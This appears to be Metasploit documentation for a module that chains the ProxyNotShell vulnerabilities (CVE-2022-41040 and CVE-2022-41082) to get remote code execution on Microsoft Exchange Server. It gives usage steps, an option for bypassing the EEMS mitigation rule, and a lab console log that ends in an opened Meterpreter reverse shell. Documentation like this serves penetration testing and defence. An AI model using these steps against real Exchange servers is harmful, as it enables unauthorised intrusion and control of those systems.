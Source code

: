## Vulnerable Application

This module chains two vulnerabilities on Microsoft Exchange Server that, when combined, allow an authenticated attacker
to interact with the Exchange Powershell backend (CVE-2022-41040), where a deserialization flaw can be leveraged to
obtain code execution (CVE-2022-41082). This exploit only support Exchange Server 2019.

By taking advantage of this vulnerability, you can execute arbitrary commands on the remote Microsoft Exchange Server.

This vulnerability affects:

  * Exchange 2013 CU23 < 15.0.1497.44
  * Exchange 2016 CU22 < 15.1.2375.37
  * Exchange 2016 CU23 < 15.1.2507.16
  * Exchange 2019 CU11 < 15.2.986.36
  * Exchange 2019 CU12 < 15.2.1118.20

*Source: [Description of the security update for Microsoft Exchange Server 2019, 2016, and 2013: November 8, 2022 (KB5019758)][1]*

## Verification Steps

1. Start msfconsole
2. Do: `use exploit/windows/http/exchange_proxynotshell_rce`
3. Do: `set RHOSTS [IP]`
4. Do: `set USERNAME [USERNAME]`
5. Do: `set PASSWORD [PASSWORD]`
6. Do: `run`

## Options
### EemsBypass
*This is an advanced option.*

Technique to bypass the EEMS rule.

**none** -- Make no attempt to bypass the EEMS rule. This can be used with the `check` method to determine if the EEMS 
M1 rule is applied.
**IBM037v1** -- Use IBM037 encoding combined with the `X-Up-Devcap-Post-Charset` header and `UP` User-Agent prefix. See
[ProxyNotRelay][2] for more information.

## Scenarios

### Version and OS

```
msf6 exploit(windows/http/exchange_proxynotshell_rce) > set RHOSTS 192.168.159.11
RHOSTS => 192.168.159.11
msf6 exploit(windows/http/exchange_proxynotshell_rce) > set USERNAME aliddle
USERNAME => aliddle
msf6 exploit(windows/http/exchange_proxynotshell_rce) > set PASSWORD Password1!
PASSWORD => Password1!
msf6 exploit(windows/http/exchange_proxynotshell_rce) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Sending stage (175686 bytes) to 192.168.159.11
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 192.168.159.11:7290) at 2022-11-18 17:32:18 -0500

meterpreter > 
```

[1]: https://support.microsoft.com/en-us/topic/description-of-the-security-update-for-microsoft-exchange-server-2019-2016-and-2013-november-8-2022-kb5019758-2b3b039b-68b9-4f35-9064-6b286f495b1d
[2]: https://rw.md/2022/11/09/ProxyNotRelay.html
